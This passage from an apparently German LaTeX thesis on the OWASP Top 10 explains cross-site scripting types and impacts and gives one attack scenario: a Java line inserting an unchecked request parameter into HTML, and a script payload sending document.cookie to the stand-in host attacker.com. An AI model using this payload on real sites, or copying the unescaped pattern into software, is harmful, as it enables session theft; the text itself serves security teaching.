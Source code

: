 \begin{itemize}
	\item Persistent
	\item nichtpersistent/reflektiert und
	\item DOM-basiert (lokal)
\end{itemize}

Die meisten XSS-Schwachstellen sind recht simpel mit Hilfe von Tests oder Code-Analysen zu erkennen\cite[13]{owasp17top10}.

Angreifer können durch die Ausführung von Skripten im Browser des Opfers die Session übernehmen, Webseiten verändern, andere Inhalte einfügen, Benutzer umleiten oder den Browser des Benutzers mit Malware infizieren\cite[13]{owasp17top10}.\\

\textbf{Mögliche Angriffsszenarien:}\\
\\
\textbf{\textit{Szenario 1:}}\\

Um folgenden HTML-Code zu generieren übernimmt die Anwendung nicht vertrauenswürdige Daten, welche weder auf Gültigkeit geprüft werden\cite[13]{owasp17top10}:\\

\begin{LaTeXCode}[caption={XXS-Beispiel 1},captionpos=b, label=LaTeXCode:xxs1][numbers=none]
(String) page += "<input name='creditcard' type='TEXT'
value='" + request.getParameter("CC") + "'>";
\end{LaTeXCode}

Der Angreifer ändert den Parameter \texttt{CC} in seinem Browser auf:\\

\begin{LaTeXCode}[caption={XXS-Beispiel 2},captionpos=b, label=LaTeXCode:xxs2][numbers=none]
<script>document.location=
http://www.attacker.com/cgi-bin/cookie.cgi?
foo='+document.cookie</script>
\end{LaTeXCode}

Somit wird die Session-ID des Benutzers an die Seite des Angreifers gesendet, so dass der Angreifer die Möglichkeit hat die aktuelle Benutzersession zu übernehmen. Angreifer können XSS auch benutzen, um jegliche CSRF-Abwehr der Anwendung zu umgehen\cite[13]{owasp17top10}.\\

\subsubsection{Unsichere Deserialisierung}

